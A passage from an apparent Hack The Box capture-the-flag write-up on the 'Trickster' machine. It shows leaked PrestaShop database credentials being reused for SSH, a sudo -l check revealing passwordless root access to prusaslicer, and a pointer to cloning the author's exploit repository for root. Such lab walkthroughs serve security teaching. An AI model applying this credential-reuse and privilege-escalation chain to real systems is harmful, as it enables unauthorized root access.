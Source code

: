 ```console
  This website requires JavaScript.
    Explore Help
    Register Sign In
                james/prestashop
            Raw Permalink Blame History

                < ? php return array (                                                                                                                                 
                'parameters' =>                                                                                                                                        
                array (                                                                                                                                                
                'database_host' => '127.0.0.1' ,                                                                                                                       
                'database_port' => '' ,                                                                                                                                
                'database_name' => 'prestashop' ,                                                                                                                      
                'database_user' => 'adam' ,                                                                                                                            
                'database_password' => 'ad**********' ,                                                                                                               
                'database_prefix' => 'ps_' ,                                                                                                                           
                'database_engine' => 'InnoDB' ,                                                                                                                        
                'mailer_transport' => 'smtp' ,                                                                                                                         
                'mailer_host' => '127.0.0.1' ,
```   

### Shell as root

SSH to `adam` using the password. Using `sudo -l`, we can use `prusaslicer` as `root` without password.

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ ssh adam@trickster.htb
adam@trickster.htb's password: 
adam@trickster:~$ sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
adam@trickster:~$
```

When i pwned the box for the first time (not fixed), i made a eaiser `prusaslicer` payload to try getting `root` from `adam`. Use `git clone https://github.com/suce0155/prusaslicer_exploit` 
